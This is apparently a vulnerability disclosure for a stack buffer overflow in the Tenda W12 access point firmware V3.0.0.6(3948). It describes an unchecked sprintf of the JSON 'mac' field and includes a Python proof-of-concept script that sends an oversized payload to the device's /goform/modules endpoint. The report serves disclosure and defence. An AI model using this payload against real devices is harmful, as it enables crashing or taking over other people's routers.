



# Bug Report: BOF in Tenda W12 AP
A stack buffer overflow vulnerability exists in Tenda W12 firmware V3.0.0.6(3948) within the cgiWifiMacFilterSet function. Remote attackers can exploit this flaw by sending malformed HTTP requests to to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda W12 AP
- **Affected Version**: V3.0.0.6(3948)
- **Download Source**: https://www.tenda.com.cn/material/show/673226879721541
- **Vulnerability Type**: Stack Buffer Overflow

## Description
A stack buffer overflow vulnerability exists in the HTTP request handler for `wifiMacFilterSet` operations. The handler extracts a `macList` array from user-controlled JSON input without validating the length of the `mac` field. When a JSON payload contains an oversized `mac` value, the `sprintf` call at line 82 overflows the stack buffer.


## PoC


## Reproduce
```python
#!/usr/bin/env python3

from pwn import *
import requests

def send_payload(url, payload, headers):
    print("sending...")
    response = requests.post(
        url,
        json=payload,
        headers=headers,
    )
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = {
    "wifiMacFilterSet": {
        "macList" : [
            {
                "index": 1,
                "macEn": "0",
                "mac": 0x400 * 'A' + 'DOIT'
            }
        ],
    }
}

headers = {"Host": "10.10.10.1",
    "Content-Type": "application/json",
}

send_payload("http://10.10.10.1/goform/modules", payload, headers)
```

